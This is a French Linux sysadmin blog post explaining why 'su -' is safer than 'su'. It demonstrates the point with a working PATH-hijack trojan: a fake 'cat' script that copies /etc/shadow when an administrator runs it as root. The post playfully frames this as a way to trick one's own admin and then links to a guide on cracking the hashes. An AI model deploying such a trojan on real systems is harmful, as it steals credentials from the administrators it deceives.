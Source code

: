 title: "Pourquoi utiliser 'su -' plutôt que 'su'"
author: Benoit
date: 2020-10-30 19:32:33 +0100
categories: [sysadmin, linux]
tags: [securite]
math: true
image: /images/security.jpg

`su -` invoque un shell de connexion après avoir changé d'utilisateur. Un shell de connexion réinitialise la plupart des variables d'environnement, fournissant une base propre.

`su` ne fait que changer d'utilisateur, fournissant un shell normal avec un environnement presque identique à celui de l'ancien utilisateur.

Imaginez que vous êtes un développeur de logiciels avec un accès normal à une machine et que votre administrateur ignorant ne vous donne pas l'accès au compte root. Essayons (avec un peu de chance) de le piéger:

Vous connnaisser évidement la commande `cat`qui permet d'afficher le contenu d'un fichier ? Nous allons la piéger en en créant une fausse:

Nous allons la stocker dans le dossier `tmp`

```bash
$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
```

Nous créons donc un script que nous allons évidement appeler `cat`
Dans ce script, si l'utilisateur n'est pas root, le script simulera un message de permission refusée.
Si l'utilisateur est root, le script va copier le contenu du fichier `/etc/shadow` dans le dossier `tmp` 
Il va ensuite executer la commande `cat` normalement.

```bash
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; } 
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0
```

Nous allons maintenent rendre le script executable et l'ajouter dans notre `PATH` afin de pouvoir l'executer depuis n'importe quel dossier:

```bash
chmod +x /tmp/evil_bin/cat`
PATH="/tmp/evil_bin:$PATH"
```

Maintenant, allez voir votre administrateur pour lui demander pourquoi vous n'arrivez pas à afficher un fichier avec la commande `cat`.

Il va donc essayer en restant sur votre session mais ce ne sera pas le vrai programme `cat`qui sera lancé mais notre petit script:

```bash
$ ls -l /home/vous/mon-super-fichier
-rw-r--r-- 1 you wheel 41 2020-06-28 13:00 mon-super-fichier
$ cat /home/vous/mon-super-fichier
/bin/cat: Permission denied!
```

Il va donc vouloir essayer avec les droits root en utilisant `su`. Et c'est à ce moment qu'il va faire une erreur. En effet, comme il utilise `su` au lieu de `su -`, les variables d'environnement ne sont pas écrasées. Il va donc une nouvelle fois executer notre script au lieu d'executer la vrai commande `cat`.

```bash
$ su
Password: ...
$ cat /home/vous/mon-super-fichier
du contenu super important dans ce fichier.
$ exit
```

Il aura donc l'impression que tout a fonctionné et fermé la session root. Donc, vous pouvez maintenant dire "Merci monsieur l'admin" ^^ En effet, notre piège a fonctionné: 

Nous avons bien récupéré une copie du fichier `/etc/shadow`qui contient une liste de tous les comptes et les mots de passe chiffrés:

```bash
$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2020-06-28 13:02 /tmp/shadow_copy
```

Il ne vous reste plus qu'a tenter de les déchiffrer... et pour ça, je vous laisse lire cet article de l'excellent [korben][korben]

Sources: [StackOverflow][StackOverflow]


[Korben]: https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html
[StackOverflow]: https://stackoverflow.com